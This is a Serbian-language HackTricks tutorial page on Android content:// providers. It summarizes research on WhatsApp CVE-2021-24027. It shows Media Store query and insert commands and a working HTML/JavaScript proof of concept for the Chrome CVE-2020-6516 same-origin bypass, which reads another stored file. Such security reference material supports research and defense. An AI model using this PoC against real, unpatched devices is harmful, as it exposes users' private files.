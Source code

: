 # content:// protocol

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

**Ovo je sažetak posta** [**https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/**](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)

#### Listanje fajlova u Media Store-u

Da biste izlistali fajlove koje upravlja Media Store, možete koristiti sledeću komandu:

```bash
$ content query --uri content://media/external/file
```

Za prikazivanje lako čitljivog izlaza, prikazujemo samo identifikator i putanju svake indeksirane datoteke:

```bash
$ content query --uri content://media/external/file --projection _id,_data
```

Provajderi sadržaja su izolovani u sopstvenom privatnom prostoru imena. Pristup provajderu zahteva određeni `content://` URI. Informacije o putanjama za pristup provajderu mogu se dobiti iz manifesta aplikacije ili izvornog koda Android okvira.

#### Pristup Chrome-a provajderima sadržaja

Chrome na Androidu može pristupiti provajderima sadržaja putem šeme `content://`, što mu omogućava pristup resursima poput fotografija ili dokumenata izvezenih od strane aplikacija trećih lica. Da bismo to ilustrovali, može se umetnuti datoteka u Media Store i zatim pristupiti joj putem Chrome-a:

Umetnite prilagođeni unos u Media Store:

```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```

Otkrijte identifikator novododatog fajla:

```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```

Fajl se može pregledati u Chrome-u koristeći URL konstruisan sa identifikatorom fajla.

Na primer, da biste prikazali listu fajlova koji su povezani sa određenom aplikacijom:

```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```

#### Chrome CVE-2020-6516: Bypass Same-Origin-Policy

_Same Origin Policy_ (SOP) je sigurnosni protokol u pregledačima koji ograničava web stranice da komuniciraju sa resursima sa različitih izvora, osim ako to nije eksplicitno dozvoljeno politikom Cross-Origin-Resource-Sharing (CORS). Ova politika ima za cilj sprečavanje curenja informacija i CSRF napada. Chrome smatra `content://` lokalnom šemom, što implicira strože SOP pravila, gde se svaki URL lokalne šeme tretira kao zaseban izvor.

Međutim, CVE-2020-6516 je bila ranjivost u Chrome-u koja je omogućavala zaobilaženje SOP pravila za resurse učitane putem `content://` URL-a. U suštini, JavaScript kod sa `content://` URL-a mogao je pristupiti drugim resursima učitanim putem `content://` URL-a, što je predstavljalo značajan sigurnosni problem, posebno na Android uređajima koji su koristili verzije pre Android 10, gde nije bila implementirana ograničena memorija.

Dole je prikazan primer koji demonstrira ovu ranjivost, gde se HTML dokument, nakon što je otpremljen na **/sdcard** i dodat u Media Store, koristi `XMLHttpRequest` u svom JavaScript kodu da pristupi i prikaže sadržaj druge datoteke u Media Store-u, zaobilazeći SOP pravila.

HTML Primer:

```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
